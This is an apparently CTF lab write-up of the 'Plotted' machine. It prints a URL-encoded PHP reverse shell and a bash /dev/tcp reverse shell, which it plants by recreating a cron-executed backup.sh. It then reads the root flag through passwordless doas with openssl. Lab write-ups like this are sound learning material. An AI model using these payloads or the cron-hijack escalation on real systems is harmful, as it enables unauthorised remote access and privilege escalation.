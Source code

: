 We use this payload for reverse shell

`php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.211.242%22%2C4444%29%3Bexec%28%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

# User Flag

Now we got foothold, Lets find the flagss. Trying to view the user flag as www-data i got a permission denied. So now lets do some manual enumeration

``` bash
www-data@plotted:/tmp$ cat /etc/crontab
* * 	* * *	plot_admin /var/www/scripts/backup.sh
```

Apparently theres a cronjob running as plot_admin executing /var/www/scripts/backup.sh

```bash
ls -la /var/www/scripts
drwxr-xr-x 2 www-data   www-data   4096 Oct 28  2021 .
drwxr-xr-x 4 root       root       4096 Oct 28  2021 ..
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28  2021 backup.sh
```

So here's a thing, Looking at the file is own by root, means we cant modify the file. But the directory is own by www-data. means i create/delete files. So what i end up doing here is, deleting the file and recreating another with thesame name, then mark it executable.

```bash
rm backup.sh
echo '#!/bin/bash' > backup.sh
ehco '/bin/bash -i >& /dev/tcp/10.10.161.239/4445 0>&1' >> backup.sh
chmod +x backup.sh
```

Now we just need to wait for a bit to get our shell.

# Root Flag

Running linpeas we discover that plot_admin is allowd to run doas wiht no pass. So you know whats next (gtfobins)

``` bash
doas openssl enc -in /root/root.txt
```
Now we done congratsss.

Thanks for reading, I hope this helps